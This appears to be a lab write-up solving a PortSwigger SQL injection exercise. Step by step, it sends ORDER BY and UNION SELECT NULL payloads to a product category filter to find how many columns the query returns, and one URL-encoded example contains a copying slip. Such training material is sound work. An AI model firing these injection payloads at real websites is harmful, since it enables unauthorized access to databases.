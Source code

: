 # SQL injection UNION attack, determining the number of columns returned by the query

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

## To solve the lab, determine the number of columns returned by the query by performing a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.

___

step 1

send `/filter?category=Lifestyle` to repeater
send request you will get 4 different item

![screnshot](./images/lab3_lifstyle_repeater.png)



**Note**: to determine SQL injection UNION attack injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs

URL encoded (Ctrl+u) => select the sentences to make them highlighted press (Ctrl+u) 
>' ORDER BY 1--  => URL encoded  ('+ORDER+BY+1)
>' ORDER BY 2-- => URL encoded ('+ORDER+BY+2)
>' ORDER BY 3-- => URL encoded ('+ORDER+BY+2)
> etc.

``
step 2

add `'+ORDER+BY+1--` at the end
`/filter?category=Lifestyle'+ORDER+BY+1--`

![screnshot](./images/lab3_order_by_1.png)

step 3

`'+ORDER+BY+2--`
`/filter?category=Lifestyle'+ORDER+BY+2--`

![screnshot](./images/lab3_order_by_2.png)

step 4

`'+ORDER+BY+3-- `
`/filter?category=Lifestyle'+ORDER+BY+3--`

![screnshot](./images/lab3_order_by_3.png)

step 5

`'+ORDER+BY+4--`
`/filter?category=Lifestyle'+ORDER+BY+4--`
The ORDER BY position number 4 is out of range of the number of items in the select list. so you get internal error

![screnshot](./images/lab3_order_by_4.png)



to solve the lab
*determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing `null` values*.

>' UNION SELECT NULL--  => ('+UNION+SELECT+NULL--)
>' UNION SELECT NULL,NULL-- =>('+UNION+SELECT+NULL,NULL--)
>' UNION SELECT NULL,NULL,NULL-- =>('+UNION+SELECT+NULL,NULL,NULL--)
>etc.

**Note: If the number of nulls does not match the number of columns, the database returns an error**

step 6

add `'+UNION+SELECT+NULL--` at the end
`/filter?category=Lifestyle'+UNION+SELECT+NULL--`

![screnshot](./images/lab3_lifestyle_repeater_null.png)

step 7

`/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL--`

![screnshot](./images/lab3_lifestyle_repeater_null_null.png)

step 8

`/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL,NULL--`

![screnshot](./images/lab3_lifestyle_repeater_null_null_null.png)


![screnshot](./images/lab3_solved_lab.png)